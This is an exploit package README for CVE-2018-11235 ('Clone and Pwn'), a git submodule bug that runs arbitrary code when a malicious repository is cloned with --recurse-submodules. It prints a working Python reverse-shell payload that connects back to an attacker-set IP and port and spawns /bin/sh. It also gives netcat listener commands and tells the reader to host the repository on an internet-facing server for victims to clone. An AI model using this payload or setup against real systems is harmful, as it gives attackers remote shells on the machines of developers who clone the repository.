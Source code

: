 Headers
===============================

# Exploit Title: Clone and Pwn
# Date: June 4th, 2018
# Exploit Author: Alejandro Caceres
# Vendor Homepage: https://git-scm.com/
# Software Link: https://git-scm.com/downloads
# Version: arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
#2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1
# Tested on: Linux: Ubuntu, Mint
# CVE : CVE-2018-11235


Exploit for CVE-2018-11235 Usage
==============================

CVE-2018-11235, dubbed clone and pwn here, creates a malicious git repo that exploits a bug in git. When the repo is cloned using the
--recurse-submodules flag, arbitrary code is executed on git client versions In Git before 2.13.7, 2.14.x before 2.14.4, 2.15.x before
2.15.2, 2.16.x before 2.16.4, and 2.17.x before 2.17.1.

To use this module simply put it on a server with direct internet access (e.g. AWS, digital ocean) and pop open `evil.sh`. It will look
something like the following:

```
#!/usr/bin/python

EXTERN_IP="127.0.0.1"
EXTERN_PORT=8080

#reverse shell to IP EXTERN_IP and port EXTERN_PORT
import socket, subprocess, os

s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.connect((EXTERN_IP, EXTERN_PORT))
os.dup2(s.fileno(),0)
os.dup2(s.fileno(),1)
os.dup2(s.fileno(),2)
p=subprocess.call(["/bin/sh","-i"])
```

Set EXTERN_IP and EXTERN_PORT to the IP (external) and port you'd like to receive your reverse shell on. A reverse shell can be received with something like:

`nc -l <EXTERN_IP> EXTERN_PORT` e.g. `nc -l 193.23.23.32 8080`

Or with Metasploit's generic shell module. Once the user has run the command `git clone --recurse-submodules git://<your ip>/repo dest_dir` you will receive a reverse shell.

If you're having trouble running multiple times (or after a failed attempt) check the following:

- Run ./clean.sh, note this will delete all data in /tmp
- check the processes with `ps aux | grep git` to ensure you aren't already running gitdaemon. Kill any gitdaemon processes.

Acknowledgements
----------------

Code derived from [@peff](https://github.com/peff)'s [git patch][] (look for
the `t/t7415-submodule-names.sh` test file).

As such, this repository is published under the GNU General Public License
version 2.

Additional fix for older versions of git courtesy of
[@atorralba](https://github.com/atorralba)
([details in this post](https://atorralba.github.io/CVE-2018-11235/)).

[git patch]: https://github.com/git/git/commit/0383bbb9015898cbc79abd7b64316484d7713b44

This script adapted from https://github.com/Rogdham/CVE-2018-11235, much love and credit

=======
# clone_and_pwn
Exploits CVE-2018-11235

By @_hyp3ri0n and @mehaase